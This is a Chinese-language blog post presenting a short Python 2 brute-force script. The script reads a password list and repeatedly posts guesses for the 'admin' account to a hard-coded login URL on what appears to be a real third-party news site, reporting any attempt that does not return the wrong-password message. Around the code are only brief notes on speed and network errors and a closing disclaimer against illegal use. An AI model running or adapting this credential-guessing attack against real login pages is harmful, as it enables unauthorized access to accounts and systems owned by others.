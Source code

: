 ```yaml
---
title: python-爆破工具
date: 2016-12-23 11:28:09
tags:
---
```

写这个工具的目的是为了爆破哪些发包需要经过一次302跳转的登陆地址，利用python写比较容易，所以就拿来练手。以后毕竟还要用，估计会继续完善。但是中间有两点问题：
1. 发包的速度比较慢，如果需要的话可以采用多线程的方式。
2. 由于网络不稳定的原因，对于内容比较大的字典爆破可能会中断，错误码10060.
这个问题还需要研究一下。
![chritsmas](/upload_image/lu33.jpg)
## 一更
### 源码：
```bash
#!coding=utf-8

import urllib2
import urllib

List=open("pass.txt",'r')		#加入/修改字典

lst=List.readlines()			#读取文件中的所有行并返回一个列表，并赋值给lst
for psd in lst:
	postdata=urllib.urlencode({
		'username':'admin',
		'password':psd,
	})									#提交post数据
	print 'password is: '+ str(psd)		#输出用来爆破的密码，用户名为admin
	req=urllib2.Request(
		url='http://www.chinanews-info.com/pub/index.jsp?fail=3',
		data=postdata
	)									#在这里加入/修改爆破的网址
	response=urllib2.urlopen(req)		#赋值回包给response
	the_page=response.read()			#读取回包的数据

	item='用户密码错误'
	if item in the_page:
		print u'密码不正确，继续破解--'
	else:
		print u'密码可能是: '+ str(psd)

```
---
工具有待改进，毕竟自己以后还是需要用到的，最后补充一句：请勿利用该工具进行非法操作，出现任何问题概不负责。
---

### sign:bman